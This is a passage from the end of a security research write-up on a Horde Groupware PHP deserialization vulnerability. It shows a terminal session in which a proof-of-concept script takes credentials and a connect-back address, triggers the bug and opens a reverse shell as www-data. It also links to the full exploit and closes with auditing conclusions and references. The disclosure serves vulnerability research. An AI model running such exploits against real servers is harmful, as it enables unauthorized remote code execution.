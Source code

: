<p class="cn" markdown="1">...and finally icing on the cake:</p>

```sh
saturn:~ mr_me$ ./poc.py 
(+) usage ./poc.py <target> <path> <user:pass> <connectback:port>
(+) eg: ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337

saturn:~ mr_me$ ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
(+) targeting http://172.16.175.145/horde/
(+) obtained session iefankvohbl8og0mtaadm3efb6
(+) inserted our php object
(+) triggering deserialization...
(+) starting handler on port 1337
(+) connection from 172.16.175.145
(+) pop thy shell!
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/horde/services
uname -a
Linux target 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
exit
*** Connection closed by remote host ***
(+) repaired the target!
```

<p class="cn" markdown="1">You can download the complete exploit [here](/pocs/zdi-20-1051.py.txt).</p>

## Conclusions

<p class="cn" markdown="1">Complex applications need both a white-box review *and* a black-box review to provide complete context to an auditor. Knowledge if the underlying framework and code is nice, but it can be very difficult to find the code path to a bug if context and understanding is not achieved. Continuing to discover and develop black-box finger printing techniques is very important for subtle and high impact vulnerability classes.</p>

## References

<div markdown="1" class="cn">
- [http://karmainsecurity.com/exploiting-cve-2014-1691-horde-framework-php-object-injection](http://karmainsecurity.com/exploiting-cve-2014-1691-horde-framework-php-object-injection)
- [https://cardaci.xyz/advisories/2020/03/11/horde-groupware-webmail-edition-5.2.22-multiple-vulnerabilities-promote-file-upload-in-temp-folder-to-rce/](https://cardaci.xyz/advisories/2020/03/11/horde-groupware-webmail-edition-5.2.22-multiple-vulnerabilities-promote-file-upload-in-temp-folder-to-rce/)
- [https://github.com/horde/Form/commit/35d382cc3a0482c07d0c2272cac89a340922e0a6](https://github.com/horde/Form/commit/35d382cc3a0482c07d0c2272cac89a340922e0a6))
</div>
